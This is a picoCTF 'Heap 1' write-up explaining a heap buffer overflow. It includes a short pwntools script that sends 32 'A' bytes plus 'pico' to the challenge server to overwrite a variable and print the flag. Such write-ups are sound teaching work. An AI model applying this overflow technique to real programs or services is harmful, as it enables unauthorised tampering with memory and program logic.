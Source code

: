 # CTF Write-Up: [Heap 1][Binary Exploitation]

## Description
>Can you control your overflow?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{starting_to_get_the_hang_9e9243f9}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- gdb
- pwntools

## Write-Up

### Preparatory Phase
Static analysis of the source code reveals a `strcmp` check in order to obtain the flag: ![alt text](images/image.png)

We need `!strcmp(safe_var, "pico")` to be evaluated as true. Using the `man` page for `strcmp` we find out that if the two given strings are equal we return `0`: ![alt text](images/image-1.png) Hence initutively we need the variable `safe_var` to be equal to `pico`.

Running the binary we obtain: 
![alt text](images/image-2.png)
and playing around with the options further we see that the `safe_var` is 
![alt text](images/image-3.png).
Therefore we need to override `0x557790b2c6d0` with `pico`

### Attack Phase
In order to obtain the offset between the start of the buffer and our target address: `0x557790b2c6d0`, I conduct: ![alt text](images/image-4.png)

Upon learning about this I create my payload by adding 32 bytes of 'junk' followed by the string "pico". A single character 'A' is represented in a single byte of data therefore create a payload consisting of 32 A's appended with pico should do the trick. 

Using a python script we get the following result: ![alt text](images/image-5.png)

### Payload
```python
from pwn import * 

host = 'tethys.picoctf.net' 
port = 50510

payload = b'A'*32 + b'pico'
io = remote(host, port)

# The command on the program to write to buffer
io.sendline(b'2')
io.sendline(payload)

# The command to print the flag (i.e. calls the check_win function)
io.sendline(b'4')
resp = io.recvall()
print(resp)
```

### Lessons Learnt
- Using python3 pwntools I need to ensure I send bytes i.e.`"pico"` needs to become `b'pico'`. 
## References
- https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
